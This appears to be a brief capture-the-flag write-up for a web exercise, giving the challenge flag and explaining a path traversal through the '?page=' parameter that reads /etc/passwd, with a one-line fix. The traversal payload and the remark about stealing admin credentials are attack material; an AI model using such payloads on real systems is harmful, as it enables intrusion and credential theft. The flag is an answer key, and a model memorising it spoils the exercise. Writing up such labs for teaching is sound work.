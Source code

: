 # WEBSITE ARCHITECTURE

## The flag

```
THE FLAG IS : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

## How to find it ?

On the page http://{IP_ADDRESS}/?page=signin

"?page=signin" is a open gate to the server

As it runs on UNIX, search the "/etc/passwd" file
replace "signin" by ".." untill you reach root and then add "/etc/passwd"

here : http://{IP_ADDRESS}/?page=../../../../../../../etc/passwd

## How to use it ?

Stole admin login and pswd

## How to avoid it ?

Allow only public folder to be reach